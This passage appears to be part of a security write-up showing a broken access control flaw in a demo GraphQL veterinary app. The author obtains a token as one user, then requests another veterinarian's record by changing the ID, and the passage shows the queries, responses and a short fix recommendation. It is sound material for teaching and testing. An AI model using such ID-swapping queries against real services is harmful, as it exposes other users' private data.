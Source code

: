 ```javascript
query getAccessToken {
  auth(veterinaryName: "Julien")
}
```

I receive the access token in the following GraphQL response:

```javascript
{
  "data": {
    "auth": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNTQ2NDQyOTAyfQ.H9A-vXRsiivFGShtdhiR3N2lSDDx-sNqbbJxMRNnExI"
  }
}
```

I send a GraphQL request to the query `myInfo(...)` using the obtained access token BUT I specify the identifier **2** that the one of **Dr Benoit**:

```javascript
query brokenAccessControl {
  myInfo(accessToken:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdWQiOiJwb2MiLCJzdWIiOiJKdWxpZW4iLCJpc3MiOiJBdXRoU3lzdGVtIiwiZXhwIjoxNTQ2NDQyOTAyfQ.H9A-vXRsiivFGShtdhiR3N2lSDDx-sNqbbJxMRNnExI", veterinaryId: 2){
    id, name, dogs {
      name
    }
  }
}
```

I receive in the GraphQL response the list of Dogs associated with **Dr Benoit**:

```javascript
{
  "data": {
    "myInfo": {
      "id": 2,
      "name": "Benoit",
      "dogs": [
        {
          "name": "Babou"
        },
        {
          "name": "Baboune"
        },
        {
          "name": "Babylon"
        },
    ...
```

#### Reco

With GraphQL we passed from a authorization matrix using `Role x Feature` to data level security using `Role x Data` because the also a single endpoints. User identity and roles must be passed to the top layer in charge grabbing the data (on act on) in order apply a verification using user identity prior to grab the data.
